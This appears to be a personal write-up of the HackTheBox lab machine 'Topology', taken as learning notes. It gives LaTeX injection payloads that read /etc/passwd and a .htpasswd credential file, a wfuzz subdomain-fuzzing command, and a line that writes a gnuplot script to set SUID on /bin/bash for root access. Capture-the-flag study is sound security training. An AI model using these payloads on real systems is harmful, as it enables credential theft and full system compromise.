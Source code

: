 # Topology

### Recon

- SSH port 22 OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
- HTTP port 80 Apache httpd 2.4.41 ((Ubuntu))

dabrahams - Sysadmin
vdaisley - Dev
lklein - Head of group

### Exploitation

Needed help here, [found this walkthrough](https://rouvin.gitbook.io/ibreakstuff/writeups/hackthebox/easy/topology)

LaTeX equation generator -> read single line of files

```
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```

Fuzz topology.htb domain to find dev subdomain (change /etc/hosts)

`wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.topology.htb" --hc=200 -u http://topology.htb`

This is a HTTP sign in, meaning we can probably find the credentials in a .htpasswd file somewhere. Also, it 
coincides with the one-line LFI that we have. However, the same command does not work with the 
/var/www/dev/.htpasswd file, which is definitely where the password hash is stored.

In this case, what we can do is try to use other commands, like \lstinputlisting. However, this payload 
doesn't work:

`\lstinputlisting{/var/www/dev/.htpasswd}`

https://tex.stackexchange.com/questions/410863/what-are-the-differences-between-and

It doesn't work (as I've learnt) because the machine asks for LaTeX inline math mode. There are different 
modes for LaTeX present, and they would parse characters differently. If we use '$' signs, we can force the 
machine to process our query by switching mode for it. 

If we use `\\lstinputlisting{/var/www/dev/.htpasswd}` instead, we see that it processes it as text

So by using `$\lstinputlisting{/var/www/dev/.htpasswd}$`, it would be processed as an expression (similar to 
$() in bash) and loads the hash:


Credentials found in .htpasswd with LaTeX LFI for dev.topology.htb portal and ssh access to the machine

`$\lstinputlisting{/var/www/dev/.htpasswd`

gnuplot is present in /opt which allows system command execution and although we don't have read access we 
have write access to the directory

pspy64 shows root running gnuplot on the directory so if we add another .plt file we can gain root access

`echo 'system "chmod u+s /bin/bash"' > /opt/gnuplot/root.plt`

